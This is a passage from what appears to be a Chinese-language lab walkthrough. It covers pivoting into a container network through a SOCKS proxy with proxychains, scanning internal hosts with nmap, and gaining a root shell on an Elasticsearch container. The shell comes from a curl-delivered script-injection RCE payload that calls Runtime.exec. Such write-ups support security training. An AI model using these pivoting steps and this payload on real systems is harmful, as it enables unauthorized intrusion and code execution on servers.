 可以看到程序成功执行， 跟服务端的连接也建立起来了。在服务器端，通过 show 命令 可以看到已经有一个节点 连接上来了，可以 goto 到 此节点

并启用一个监听1080 端口的 socks 代理，Kali 的 所有工具 可以通过 proxychains 这个工具 挂上这个代理去访问 容器内网的整个网段

![](https://cos.kevinc.ltd/file/download?fileId=608)

修改proxychains 配置文件，把代理类型改成 socks5， 代理端口 改成 1080

![](https://cos.kevinc.ltd/file/download?fileId=609)

挂载好后，以 proxychains 为前缀，就可以对内网的主机 进行端口扫描了

```bash
proxychains nmap -sT -Pn 172.17.0.1
# -Pn  代表不进行主机发现， 直接对目标进行深层次的扫描
# -sT 进行TCP扫描
```

扫描得出 172.17.0.1 开放的端口 跟 目标靶机 开放的端口一样， 都是22 和 5000浏览器挂代理后对172.17.0.1的5000端口进行访问

![](https://cos.kevinc.ltd/file/download?fileId=610)

继续对服务版本进行探测，发现 跟 目标靶机的 服务版本也完全一模一样。浏览器挂载代理后，访问172.17.0.1的5000端口，发现页面 也跟我们直接访问靶机地址的一模一样，可以确定172.17.0.1就是目标靶机，只不过该地址是靶机面向容器内网的地址。

继续对172.17.0.3 进行端口扫描， 发现开了9200 端口， 对服务进行探测后发现是Elasticsearch

![](https://cos.kevinc.ltd/file/download?fileId=611)

针对服务搜寻漏洞

```bash
searchsploit Elasticsearch
```

![](https://cos.kevinc.ltd/file/download?fileId=612)

发现有RCE可做利用，将漏洞利用代码拷贝到当前目录下，简单看一下脚本的执行例子。

可先尝试一下执行脚本，一般脚本在注释或者报错提示里都有脚本执行的格式，按照格式一步一步来

第一次利用脚本36337.py的时候会报错，原因是elasticsearch服务里面没有数据，所以不能通过elasticsearch来搜索进而执行命令。

解决方法是先插入一条数据，再进行脚本的利用。

```shell
proxychains curl -XPOST 'http://172.17.0.3:9200/twitter/user/yren' -d '{ "name" : "Wu" }'
```

```shell
proxychains curl -XPOST 'http://172.17.0.3:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("whoami").getText()"}}}'
```

![](https://cos.kevinc.ltd/file/download?fileId=613)

成功拿到第二台容器的shell，查看权限，发现也是 root （没什么卵用）
